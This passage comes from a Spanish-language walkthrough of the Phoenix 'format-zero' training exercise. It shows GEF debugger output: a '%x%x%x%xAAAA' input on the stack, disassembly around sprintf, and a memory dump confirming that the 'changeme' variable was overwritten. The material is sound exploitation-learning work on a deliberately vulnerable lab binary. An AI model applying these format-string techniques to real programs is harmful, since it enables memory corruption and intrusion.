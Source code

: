 ```csharp
0x00007fffffffe620│+0x0000: 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"	 ← $rsp
0x00007fffffffe628│+0x0008: 0x0000000100000000
0x00007fffffffe630│+0x0010: "%x%x%x%xAAAA"	 ← $rax
0x00007fffffffe638│+0x0018: 0x0000000a41414141 ("AAAA"?)
0x00007fffffffe640│+0x0020: 0x0000000000000000
0x00007fffffffe648│+0x0028: 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
0x00007fffffffe650│+0x0030: 0x0000000000000001
0x00007fffffffe658│+0x0038: 0x00007fffffffe6d8  →  0x00007fffffffe8d7  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4006e2 <main+69>        call   0x4004f0 <errx@plt>
     0x4006e7 <main+74>        mov    BYTE PTR [rbp-0x31], 0x0
     0x4006eb <main+78>        mov    DWORD PTR [rbp-0x10], 0x0
 →   0x4006f2 <main+85>        lea    rdx, [rbp-0x40]
     0x4006f6 <main+89>        lea    rax, [rbp-0x30]
     0x4006fa <main+93>        mov    rsi, rdx
     0x4006fd <main+96>        mov    rdi, rax
     0x400700 <main+99>        mov    eax, 0x0
     0x400705 <main+104>       call   0x400500 <sprintf@plt>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "format-zero", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006f2 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

Al ejecutar el programa con el comando `c` observamos que el flujo continúa y se verifica la condición de la variable `changeme`. En este punto, al inspeccionar el contenido del buffer con `x/8xg $rbp-0x30`, podemos comprobar que la sobreescritura fue exitosa: la variable fue modificada con los valores inyectados en el buffer. Esto confirma que el desbordamiento de pila no solo altera el contenido de memoria cercano, sino que también permite manipular variables críticas como `changeme`.

```csharp
gef➤  x/8xg $rbp-0x30
0x7fffffffe640:	0x3033366566666666	0x3433356366663766
0x7fffffffe650:	0x6131303130313031	0x4141613061306130
0x7fffffffe660:	0x00000000000a4141	0x0000000000000000
0x7fffffffe670:	0x0000000000000001	0x00007ffff7d8fd62
gef➤ 
```

Al continuar la ejecución con el comando `c`, el programa muestra el mensaje que confirma que el reto se ha cumplido, ya que la variable `changeme` fue modificada correctamente

```csharp
gef➤  c
Continuing.
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 381) exited normally]
gef➤ 
```
